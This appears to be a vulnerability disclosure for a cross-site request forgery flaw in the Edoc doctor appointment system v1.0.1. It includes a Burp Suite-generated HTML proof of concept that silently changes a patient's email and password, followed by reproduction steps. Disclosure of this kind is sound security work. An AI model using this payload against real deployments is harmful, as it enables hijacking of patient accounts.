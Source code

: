 # Edoc-doctor-appointment-system v1.0.1  was discovered to cross-site request forgery (CSRF) vulnerability via /patient/settings.php . Allow remote attackers to hijack the authentication of users for requests that cause an unspecified impact via unknown parameters.

PoC

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://www.doctor111.com/patient/edit-user.php" method="POST">
      <input type="hidden" name="id00" value="3" />
      <input type="hidden" name="oldemail" value="dsa&#64;qw&#46;cn" />
      <input type="hidden" name="email" value="dsaaaaaaa&#64;qw&#46;cn" />
      <input type="hidden" name="name" value="w&#32;eesssss" />
      <input type="hidden" name="nic" value="01" />
      <input type="hidden" name="Tele" value="0171234567" />
      <input type="hidden" name="address" value="rew" />
      <input type="hidden" name="password" value="dsa&#64;qw&#46;cn1" />
      <input type="hidden" name="cpassword" value="dsa&#64;qw&#46;cn1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```





vendor : https://github.com/HashenUdara/edoc-doctor-appointment-system

Vulnerability Position : http://ip/patient/settings.php 



Log in to the http://ip/login.php

Visit http://ip/patient/settings.php  ,  will access the page of the module.



Click the View button.

![image-20220718153048821](./img/image-20220718153048821.png)



Change name : `qq ww`  to  `hackhack`.

Use burpsuite to capture request packet , and then click the Save button.

![image-20220718153650026](./img/image-20220718153650026.png)



Generate CSRF PoC in burpsuite.



![image-20220718153756018](./img/image-20220718153756018.png)



Copy HTML save as test.html.

![image-20220718154658799](./img/image-20220718154658799.png)



**Attention :** **You must drop this captured request packet after Copy HTML**.



Then open test.html with your Browser , click Submit request button.

![image-20220718155255767](./img/image-20220718155255767.png)



You will see pop -up window , and your name is `hackhack`

![image-20220718155607311](./img/image-20220718155607311.png)

